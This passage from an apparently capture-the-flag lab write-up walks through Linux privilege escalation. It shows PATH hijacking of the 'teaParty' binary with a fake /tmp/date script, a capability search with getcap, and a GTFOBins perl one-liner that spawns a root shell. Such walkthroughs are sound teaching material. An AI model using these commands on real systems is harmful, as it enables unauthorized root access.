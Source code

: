 ![image](https://user-images.githubusercontent.com/67465230/187023774-998a9204-d276-4390-b728-fd5604f75d8c.png)

We can now create a shell script called date, place that in /tmp, and make it executable with `chmod +x /tmp/date`,

![image](https://user-images.githubusercontent.com/67465230/187023778-776c7c92-f3ff-4602-b583-9f6808349893.png)

Let's export our own PATH variable for hijacking,

```bash
export PATH=/tmp:$PATH
echo $PATH
```

Executing the file and we will see that we will become hatter user,

```bash
./teaParty
id
```

![image](https://user-images.githubusercontent.com/67465230/187023790-fafe9fc8-7f40-4df3-ad4d-33598d6d5ffd.png)

Listing the directory and there is a password.txt file,

![image](https://user-images.githubusercontent.com/67465230/187023802-8ddc3e28-78e5-4467-8d2b-736729328de0.png)

viewing the password.txt file and it is a password, and we can use it somewhere,

![image](https://user-images.githubusercontent.com/67465230/187023828-3a1c35b9-3de2-4fde-86ce-badcb788b8f0.png)

I tried to check sudo rights of hatter user, but it doesn't work. Then I tried to see if there are any [linux capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities) present on the system, and yes, there are!

```bash
getcap -r / 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187023840-5bd86d93-f271-41db-9f87-7954b464fdf4.png)

Here, we see that there is a perl capability, and searching it up on [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities), we can abuse this capability and escalate to root user using this one liner,

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![image](https://user-images.githubusercontent.com/67465230/187023852-ccd04b78-b9c1-424c-ad0c-981078a4cae5.png)

and we're root!